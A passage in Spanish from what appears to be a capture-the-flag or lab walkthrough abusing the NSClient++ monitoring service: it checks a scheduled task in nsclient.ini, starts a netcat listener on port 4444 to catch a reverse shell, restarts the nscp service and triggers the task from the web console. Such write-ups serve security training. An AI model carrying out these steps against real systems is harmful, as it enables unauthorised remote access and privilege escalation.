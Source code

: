 Vemos si se configuró adecuadamente nuestra tarea.

`type "C:\Program Files\NSClient++\nsclient.ini"`

![13](images/13.png)

Ponemos a la escucha nuestro netcat.

`rlwrap nc -lvnp 4444`

Detenemos e iniciamos el servicio **nscp** para que cargue la nueva configuración.

- `sc stop nscp`
- `sc start nscp`

![14](images/14.png)

Nos dirigimos a la página y ejecutamos nuestra tarea.

`-> Console -> default -> Run`

![15](images/15.png)

![16](images/16.png)
